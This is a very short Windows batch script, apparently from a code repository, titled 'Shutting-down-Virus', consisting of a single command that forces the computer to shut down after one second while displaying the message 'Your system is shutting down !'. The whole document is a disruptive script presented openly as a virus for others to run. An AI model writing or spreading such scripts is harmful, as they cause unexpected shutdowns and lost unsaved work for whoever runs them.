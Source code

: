 # Shutting-down-Virus
#Run-in-Task-Manager

@echo off
shutdown -s -t 1 -c "Your system is shutting down !"
